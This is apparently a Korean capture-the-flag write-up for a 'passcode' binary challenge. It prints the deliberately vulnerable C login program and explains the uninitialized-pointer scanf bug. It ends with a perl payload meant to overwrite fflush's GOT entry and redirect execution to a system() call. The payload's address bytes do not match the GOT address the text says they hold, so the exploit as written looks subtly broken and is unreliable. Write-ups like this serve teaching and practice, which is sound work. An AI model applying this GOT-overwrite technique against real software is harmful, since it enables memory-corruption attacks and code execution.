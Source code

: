 # passcode

이 문제는 passcode1 과 passcode2 값을 각각의 조건에 만족시키면 flag 를 출력한다. <소스코드 참조>

처음 welcome() 함수에서 100byte 만큼 입력받은 후, login() 함수에서 passcode1 의 주소에 값을 입력받는다.

일반적으로 유효한 주소가 아닌 값이 저장되어 있기에 "Segmentation fault" 를 출력하며 종료된다. 

&nbsp;&nbsp;

해결 방법은 이 passcode1 에 저장된 값을 유효한 주소로 만들어주면 된다. 아래의 스택 구조를 참고하자.

welcome() 함수에서 입력받는 name 변수의 100 byte 중 마지막 4 byte 는 passcode1 의 값이다. 이 passcode1 의 값을 fflush() 의 got 주소를 저장한 후,

passcode1 을 입력받을 때, system() 가 실행되는 주소를 입력해주면 플래그를 출력하게 될 것이다.

** welcome() stack : | 96 byte | 4 byte (passcode1) |  **


```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

최종 페이로드는 다음과 같다.

* (perl -e 'print "\x90"x96, "\x48\x4a\xbb\xff", "134514147"') | ./passcode